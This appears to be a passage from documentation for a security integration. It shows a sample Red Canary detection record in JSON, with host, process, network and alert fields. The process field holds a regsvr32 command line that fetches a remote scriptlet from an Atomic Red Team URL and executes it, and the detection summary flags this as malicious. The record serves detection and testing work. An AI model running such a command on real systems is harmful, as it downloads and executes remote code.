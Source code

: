         "OS": "Windows", 
        "Hostname": "ec2amaz-tmlcd45", 
        "IsDecommissioned": false, 
        "IsIsolated": true, 
        "OSVersion": "Windows Server 2016 Server Datacenter, 64-bit", 
        "IPAddress": [
            "172.31.37.106"
        ], 
        "ID": 4
    }, 
    "Process": {
        "Path": "c:\\windows\\system32\\regsvr32.exe", 
        "CommandLine": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll", 
        "Name": "c:\\windows\\system32\\regsvr32.exe", 
        "StartTime": "2018-09-12T11:30:23Z", 
        "MD5": "8cf9086be38a15e905924b4a45d814d9"
    }, 
    "IP": {
        "Port": 443, 
        "Address": "151.101.12.133"
    }, 
    "Domain": {
        "Name": "raw.githubusercontent.com"
    }, 
    "RedCanary": {
        "Detection": {
            "Severity": "medium", 
            "Classification": "Malicious Software", 
            "Headline": "[DEM-4] Malicious Software", 
            "Acknowledged": false, 
            "Summary": "An instance of `Regsvr32` was leveraged to download Atomic Red Team code and execute it on this system.", 
            "Time": "2018-09-12T11:15:55Z", 
            "Type": "RedCanaryDetection", 
            "ID": 4
        }
    }, 
    "File": [
        {
            "Path": "c:\\windows\\explorer.exe", 
            "Name": "c:\\windows\\explorer.exe", 
            "Extension": ".exe", 
            "MD5": "a7190e945f2d00fe4af31289f4e64b8c"
        }, 
    ]
}
</pre>
<h5>Human Readable Output</h5>